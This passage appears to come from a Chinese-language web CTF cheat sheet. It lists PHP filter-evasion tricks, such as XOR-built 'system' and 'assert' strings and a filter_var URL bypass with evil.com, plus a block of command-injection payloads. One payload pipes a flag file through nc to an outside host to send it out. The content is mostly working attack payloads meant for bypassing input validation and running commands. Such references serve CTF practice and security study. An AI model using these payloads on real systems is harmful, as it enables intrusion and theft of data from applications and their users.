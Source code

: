 - 递增
    - `$a="9D9"; var_dump(++$a);`
        - `string(3) "9E0"`
    - `$a="9E0"; var_dump(++$a);`
        - `float(10)`

- 算数运算绕Filter
    - `%f3%f9%f3%f4%e5%ed & %7f%7f%7f%7f%7f%7f`
        - `system`
        - 可用在限制不能出现英数字时 or 过滤某些特殊符号
    - ```$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');```
        - `assert`
    - 其他
        - `~`, `++`等运算，也都可用类似概念构造

- 花括号
    - 数组、字符串元素存取可用花括号
    - `$array{index}`同`$array[index]`

- filter_var
    - `filter_var('http://evil.com;google.com', FILTER_VALIDATE_URL)`
        - False
    - `filter_var('0://evil.com;google.com', FILTER_VALIDATE_URL)`
        - True

- json_decode
    - 不直接吃掉换行字元和\t字元
    - 但可以吃掉'\n'和'\t'
        - 会转成换行字元和Tab

- === bug
    - `var_dump([0 => 0] === [0x100000000 => 0])`
        - 某些版本会是True
        - ASIS 2018 Qual Nice Code
    - https://3v4l.org/sUEMG
- openssl_verify
    - 预测採用SHA1来做签名，可能有SHA1 Collision问题
    - DEFCON CTF 2018 Qual


# Command Injection

```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc kaibro.tw 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```
